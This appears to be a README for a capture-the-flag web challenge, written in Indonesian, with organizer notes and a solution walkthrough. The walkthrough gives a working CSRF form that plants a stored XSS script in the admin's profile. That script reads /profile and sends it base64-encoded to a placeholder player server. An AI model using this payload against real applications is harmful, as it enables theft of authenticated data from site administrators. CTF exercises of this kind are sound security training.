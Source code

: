 # OldSkool

## Description
Tolong testing aplikasi CurMas yang baru kami buat, terimakasih<br>
<br>
Author : Yeraisci

## Notes to Panitia
- Vulnnya CSRF + Self XSS
- Peserta gadikasih berkas apapun, cuma link ke webservice
- Tinggal docker compose up gan, portnya menyesuaikan
- Terserah mau buat quals apa final
- Di file *old_skool/visit.js*, di line 8 diganti ke ip webservice pas deploy

## How to Solve ?
- Host sebuah file HTML dengan payload CSRF untuk mengganti profile
- Nantinya link server yang nge-host HTML itu bisa dikirim user untuk dikunjungi admin, dengan ngerubah link pas report curhat
- Sebenernya cara gampangnya payload xss nya cuma img src ngeleak cookie admin
- Tapi, karena session cookie bawaan flask pake flag "HttpOnly" jadi pake cara lain
- Payload xss nya dibuat biar admin nge-fetch konten di /profile (kalo admin, ntar keluar flagnya) terus kirim ke server pemain
- Host payload html kayak gini:
```html
<form action="http://<IP WEBSERVICE TARGET>/profile" method="POST" enctype="text/plain">
  <input type="text" name='{"bio":"wow123","motto":"yea\"><sCrIPt>var xmlHttp = new XMLHttpRequest();xmlHttp.open( \"GET\", \"/profile\", false );xmlHttp.send( null );var url = \"https://<IP SERVER PEMAIN>/?a=\" + btoa(xmlHttp.responseText); var x = document.createElement(\"img\"); x.src = url; document.body.appendChild(x);</sCrIPT>", "a":"' value='"}'>
</form>
<script>
  document.forms[0].submit();
</script>
```
- Atau bisa juga lempar ke hookbin kalau gamau repot
- Terus kirim link yang nge-host html payload itu ke parameter "curhat_link" pas mau report suatu curhat
- Tunggu bentar, terus tinggal liat di listenernya, baikin base64nya, terus decode, dapet flag
